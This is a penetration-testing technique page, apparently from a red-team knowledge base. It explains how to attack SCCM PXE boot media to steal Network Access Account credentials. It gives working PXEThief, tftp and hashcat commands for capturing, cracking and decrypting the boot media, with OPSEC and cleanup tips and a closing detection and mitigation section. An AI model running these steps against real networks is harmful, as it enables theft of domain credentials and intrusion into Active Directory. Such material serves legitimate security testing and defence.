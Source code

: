 ```yaml
---
tags:
  - type/technique
  - tactic/TA0006
  - technique/T1547003
  - technique/T1552001
  - stage/initial-access
  - stage/credential-access
  - os/windows
  - tool/pxethief
  - tool/hashcat
  - service/sccm
  - service/pxe
aliases:
  - SCCM PXE Boot Attack
  - PXEThief NAA Credential Theft
  - Crack SCCM PXE Media Password
  - SCCM Task Sequence Credential Harvesting
---
```


## Technique
___
This technique provides initial access by exploiting the **Pre-Boot Execution Environment (PXE)**, a standard for booting computers over the network. In corporate environments, PXE is commonly used by **System Center Configuration Manager (SCCM)** to deploy operating systems.

An attacker on the local network can masquerade as a new computer requesting a boot image. By capturing the SCCM boot media files, the attacker can perform an offline password cracking attack to decrypt them. A successful decryption reveals sensitive information, most notably the credentials for the **Network Access Account (NAA)** or domain join accounts, which can be used for initial access and privilege escalation within the Active Directory domain.

!!! alert "note"
	The presence of PXE is a common indicator that SCCM is being used as well, but not always



## Prerequisites
___
**Access Level:** An attacker needs to be on the same local network (broadcast domain) as the SCCM PXE-enabled Distribution Point. No prior domain credentials are required.

**System State:**

- A PXE-enabled SCCM Distribution Point must be accessible on the network.
    
- The attacker's machine must be a Windows system to run the required tool, `PXEThief`.
    
- The attacker's machine must be seen as an "Unknown Computer" by SCCM.
    
- A `tftp` client is required to download boot files.
    
- `hashcat` and a custom SCCM hashcat module are needed for password cracking.
    

**Information:** The IP address of the SCCM Distribution Point (DP) is helpful, though it can sometimes be discovered.

## Considerations
___

**Impact**

A successful attack grants the attacker highly valuable credentials. The **Network Access Account** and **Domain Join Account** often have permissions to read from most Active Directory objects and write to computer objects, providing a significant foothold for lateral movement and further exploitation.

**OPSEC**

- Initial PXE/DHCP requests are broadcast traffic and may not appear suspicious.
    
- The `tftp` file transfer is unencrypted and could be flagged by network monitoring.
    
- Subsequent authenticated requests to the SCCM Management Point (MP) originate from an attacker-controlled, unmanaged device, which could be an indicator of compromise if client origins are monitored.

## Identify
___
The primary method for identifying a vulnerable PXE server is to use the `PXEThief` tool. While it has a discovery option, directly targeting a known or suspected SCCM server IP address is more reliable.
[https://github.com/MWR-CyberSec/PXEThief](https://github.com/MWR-CyberSec/PXEThief)

!!! alert "note"
	 PXEThief  should only be used on windows due to the pywin32 dependency, it also works best with python 3.10 

```powershell
python pxethief.py 2 <DISTRIBUTION_POINT_IP>
```
A successful response will provide the file paths for the .boot.var and .boot.bcd files on the server's TFTP share.

## Execution
___
**Step 1: Request Boot Media Paths**

Use PXEThief to coerce the DP into providing the location of the encrypted boot media files.

```powershell
python pxethief.py 2 <IP>
```

This will output the full paths to the `.boot.var` and `.boot.bcd` files.

**Step 2: Download the Encrypted Boot Variable File**

Use the `tftp` client to download the `.boot.var` file from the Distribution Point.

```powershell
tftp -i <DISTRIBUTION_POINT_IP> GET "\\SMSTemp\\<...>.boot.var" "<...>.boot.var"
```

**Step 3: Extract the Hash for Cracking**

Use `PXEThief` with option 5 to process the downloaded `.boot.var` file and generate a crackable hash.

```powershell
python pxethief.py 5 '.\\<...>.boot.var'
```

A specific [hashcat module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module) must be used to crack the hash. Here is how to install it:

```bash
cd hashcat_pxe/
git clone https://github.com/hashcat/hashcat.git
git clone https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module
cp configmgr-cryptderivekey-hashcat-module/module_code/module_19850.c hashcat/src/modules/
cp configmgr-cryptderivekey-hashcat-module/opencl_code/m19850\* hashcat/OpenCL/
cd hashcat
git checkout -b v6.2.5 tags/v6.2.5 # change to 6.2.5
make
```


Then, the hash can be cracked with hashcat's module `19850` and a password wordlist:

```bash
hashcat/hashcat -m 19850 --force -a 0 hashcat/hash /usr/share/wordlists/rockyou.txt
```

**Step 5: Decrypt Media and Extract Credentials**

Use `PXEThief` with option 3, providing the downloaded `.boot.var` file and the cracked password to decrypt the contents and automatically extract credentials.

```powershell
python pxethief.py 3 '.\\<...>.boot.var' "Password123!"
```

The tool will parse the decrypted data and display any found usernames and passwords for accounts like the NAA.

## Cleanup Considerations
___
- Delete all downloaded artifacts from the attack machine, including the `.boot.var`, `.boot.bcd`, `variables.xml`, and the exported `.pfx` certificate file.
    
- Remove the client certificate imported by `PXEThief` from the Windows Certificate Store.

## Detection & Mitigation
___
#### **Detection**

- **Network Monitoring:** Monitor for unusual `tftp` traffic or a high volume of PXE boot requests from a single source.
    
- **Log Analysis:** Audit SCCM and domain controller logs for authentication events tied to the Network Access Account originating from unexpected or unmanaged IP addresses.
    
- **Endpoint Monitoring:** Look for the execution of `PXEThief.py` or `tftp.exe` on non-administrative workstations.
    

#### **Mitigation**

- **Strong Passwords:** Protect the PXE boot media with a **strong, complex, and long password**. This makes offline cracking significantly more difficult and time-consuming.
    
- **Least Privilege:** Strictly enforce the principle of least privilege for the Network Access Account and any domain join accounts. They should have the absolute minimum permissions required to function.
    
- **Network Segmentation:** Use VLANs and firewall rules to restrict which network segments can communicate with SCCM Distribution Points on required ports (e.g., DHCP, TFTP).
    
- **Regular Audits:** Regularly audit and rotate the credentials used for PXE boot and within Task Sequences.